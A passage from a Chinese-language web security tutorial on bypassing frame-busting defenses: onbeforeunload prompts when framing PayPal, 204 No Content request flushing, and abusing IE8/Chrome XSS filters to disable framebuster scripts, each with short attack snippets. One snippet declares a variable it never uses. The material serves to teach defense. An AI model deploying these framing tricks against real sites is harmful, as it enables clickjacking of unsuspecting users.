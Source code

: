```
<script>
window.onbeforeunload = function()
{
  return "Asking the user nicely";
}
</script>
<iframe src="http://www.paypal.com"> 
```

PayPal 的框架保护代码将会生成一个 BeforeUnload 事件，从而激活我们的函数，提示用户取消这次跳转事件。

## 无内容冲洗

上一个攻击需要用户“参与”，同样的攻击也可以在不提示用户的情况下发生。大多数浏览器（IE7, IE8, Google Chrome, and Firefox）让攻击者在 onBeforeUnload 事件中通过重复提交跳转请求到一个返回空内容的页面(HTTP/1.0 204 No Content)。请求一个无内容页面是一个 NOP，会刷新请求管道，从而取消原来的跳转。下面是示例代码(**经测试最新的 chrome、firefox、safari 已经不支持这个特性**)：

```
var preventbust = 0
window.onbeforeunload = function() { killbust++ }
setInterval( function() {
  if(killbust > 0){
  killbust = 2;
  window.top.location = 'http://nocontent204.com'
  }
}, 1);
<iframe src="http://www.victim.com"> 
```

## 利用 XSS 过滤器

IE8 和 Google Chrome 引入反射性 XSS 过滤器，这有助于保护 web 页面免遭某些类型的 XSS 攻击。Nava 和 Lindsay（供职于 Blackhat 公司）观察到这些过滤器能被用来绕过框架保护代码。IE8 的 XSS 过滤器使用一组正则表达式来比较请求的参数，以此来找到特定的 XSS 攻击。使用“假性诱导技术”，过滤器能被用来禁止某些的脚本。通过匹配请求参数中的所有脚本标签的开头，XSS 过滤器会禁用页面内所有内联脚本，包括框架保护脚本。对于外部脚本也可以使用同样的手法来禁用所有外部脚本。因为加载的 javascript 还可以调用、cookie 也可用，这种攻击对点击劫持十分有效。

**被攻击页面的防护代码**

```
<script>
if(top != self) {
  top.location = self.location;
}
</script> 
```

**攻击页面代码:**

```
<iframe src="http://www.victim.com/?v=<script>if''> 
```

XSS 过滤器将匹配受攻击页面的参数`<script>if`，从而禁用受害者页面所有的内联脚本，包括框架保护代码。

## Clobbering top.location
